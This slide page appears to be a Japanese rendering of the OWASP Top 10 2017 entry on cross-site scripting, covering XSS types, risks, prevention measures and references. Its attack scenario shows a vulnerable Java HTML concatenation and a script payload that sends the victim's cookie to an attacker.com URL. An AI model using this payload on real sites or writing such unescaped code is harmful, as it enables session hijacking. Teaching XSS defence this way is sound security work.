

A7
:2017
# クロスサイトスクリプティング (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
|  | 悪用のしやすさ: 3 | 蔓延度: 3 | 検出のしやすさ: 3 | 技術面: 2 |  |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 |  | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。 自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 |  | XSSの影響は、リフレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |  |
脆弱性発見のポイント
XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます:
リフレクテッド XSS:アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部として含めている。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できる。一般的には、ユーザは、いわゆる水飲み場サイトや広告ページなど攻撃に乗っ取られたページに辿り着くための悪質なリンクを踏むことになる。
ストアド XSS: アプリケーションまたはAPIがそのデータを無害化せずに格納する。それら入力データは、後に別のユーザまたは管理者によって閲覧されることになる。ストアドXSSは、大抵の場合、高または重大リスクとみなされる。
DOMベースXSS: JavaScriptフレームワーク、シングルページアプリケーション、およびAPIが、攻撃者の制御可能なデータを動的に取り込んでページに出力することにより、DOMベースXSS脆弱性となる。理想を言えば、アプリケーションは安全でないJavaScript APIに対して攻撃者が制御可能なデータを送信してはいけない。
典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。
防止方法
XSSを防止するには、信頼できないデータを動的なブラウザコンテンツから区別する必要があります。以下を実施します:
 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクトおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は OWASP Cheat Sheet ‘XSS Prevention‘ を参照のこと。
クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、  OWASP Cheat Sheet 'DOM based XSS Prevention‘で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
XSSに対する多層防御措置の一環としてContent Security Policy (CSP)を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。
攻撃シナリオの例
シナリオ #1:あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。
 (String) page += "<input name='creditcard' type='TEXT'
  value='" + request.getParameter("CC") + "'>";
攻撃者はブラウザでパラメータ‘CC’を以下に改変します:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
​36これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。
注意:攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破ることができます。
参考資料
OWASP
OWASP Proactive Controls: Encode Data
OWASP Proactive Controls: Validate Data
OWASP Application Security Verification Standard: V5
OWASP Testing Guide: Testing for Reflected XSS
OWASP Testing Guide: Testing for Stored XSS
OWASP Testing Guide: Testing for DOM XSS
OWASP Cheat Sheet: XSS Prevention
OWASP Cheat Sheet: DOM based XSS Prevention
OWASP Cheat Sheet: XSS Filter Evasion
OWASP Java Encoder Project
External
CWE-79: Improper neutralization of user supplied input
PortSwigger: Client-side template injection